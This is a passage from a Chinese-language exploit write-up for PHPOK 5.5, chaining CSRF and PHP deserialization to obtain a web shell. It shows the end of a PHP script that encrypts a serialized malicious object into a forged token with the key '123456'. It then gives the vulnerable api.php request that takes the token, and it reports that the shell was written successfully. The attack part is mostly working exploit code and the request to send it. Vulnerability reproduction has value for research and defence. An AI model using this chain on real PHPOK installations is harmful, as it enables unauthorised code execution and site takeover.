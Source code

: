                 $rndkey[$i] = ord($cryptkey[$i % $key_length]);
            }
            // 用固定的算法，打乱密匙簿，增加随机性，好像很复杂，实际上并不会增加密文的强度
            for($j = $i = 0; $i < 256; $i++){
                $j = ($j + $box[$i] + $rndkey[$i]) % 256;
                $tmp = $box[$i];
                $box[$i] = $box[$j];
                $box[$j] = $tmp;
            }
            // 核心加解密部分
            for($a = $j = $i = 0; $i < $string_length; $i++){
                $a = ($a + 1) % 256;
                $j = ($j + $box[$a]) % 256;
                $tmp = $box[$a];
                $box[$a] = $box[$j];
                $box[$j] = $tmp;
                $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
            }
            return $result;
        }
    }
    $token = new token();
    $token->keyid('123456');
    echo $token->encode(serialize(new cache));
    ?>

![6.png](resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId34.png)

运行脚本拿到Payload，请求有进行解密操作的接口，如：

    http://www.0-sec.org/api.php?c=index&f=phpok&token=

请求前：

![7.png](resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId35.png)

请求后：

![8.png](resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId36.png)

shell写入成功。

文件内容：

![9.png](resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId37.png)

![10.png](resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/7852
